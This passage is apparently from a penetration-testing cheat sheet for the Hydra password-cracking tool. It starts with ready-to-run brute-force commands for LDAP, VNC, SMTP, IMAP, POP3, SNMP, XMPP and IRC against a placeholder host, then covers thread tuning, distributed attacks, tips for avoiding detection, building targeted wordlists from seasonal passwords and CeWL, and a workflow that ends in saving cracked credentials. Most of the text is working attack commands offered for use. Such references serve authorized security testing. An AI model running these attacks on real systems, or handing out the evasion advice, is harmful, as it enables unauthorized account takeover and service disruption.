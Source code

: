 | LDAP            | `hydra -l "cn=user,dc=example,dc=com" -P pass.txt ldap://10.10.10.10`                            |
| VNC             | `hydra -P pass.txt vnc://10.10.10.10`                                                            |
| SMTP            | `hydra -l user -P pass.txt smtp://10.10.10.10`                                                   |
| IMAP            | `hydra -l user -P pass.txt imap://10.10.10.10`                                                   |
| POP3            | `hydra -l user -P pass.txt pop3://10.10.10.10`                                                   |
| SNMP            | `hydra -P pass.txt snmp://10.10.10.10`                                                           |
| XMPP            | `hydra -l user -P pass.txt xmpp://10.10.10.10`                                                   |
| IRC             | `hydra -l user -P pass.txt irc://10.10.10.10`                                                    |

## Performance Optimization

1. **Thread Control**: Start with lower threads (`-t 4`) and increase if stable
2. **Task Control**: Use `-T` to control total number of connections
3. **Memory Usage**: Use smaller wordlists or split large ones
4. **Distributed Attacks**: Split alphabetically (a-m, n-z) across multiple attackers

## OPSEC Considerations

1. **Account Lockout**: Be aware of account lockout policies 
2. **Rate Limiting**: Use lower thread counts to avoid detection
3. **Logs**: Target will log all brute force attempts
4. **IPS/IDS Alert**: Brute force attacks often trigger security alerts
5. **Service Disruption**: Heavy brute forcing can cause denial of service

## Password List Creation

```bash
# Generate targeted wordlist with common patterns
echo "company123" >> custom_wordlist.txt
echo "Spring2025!" >> custom_wordlist.txt
echo "Winter2025!" >> custom_wordlist.txt
echo "Password123" >> custom_wordlist.txt

# Using CeWL to generate company-specific wordlist
cewl http://company.com -m 6 -w wordlist.txt

# Add number patterns
for word in $(cat wordlist.txt); do echo "${word}123" >> wordlist-enhanced.txt; done
```

## Example Workflow

1. **Identify service**: `nmap -sV 10.10.10.10`
2. **Gather usernames**: Through enumeration or OSINT
3. **Create targeted wordlist**: Based on company info, default passwords
4. **Start with low threads**: `hydra -l admin -P custom_wordlist.txt ssh://10.10.10.10 -t 4`
5. **Observe and adjust**: Increase threads if no lockout policies
6. **Document findings**: Save successful credentials
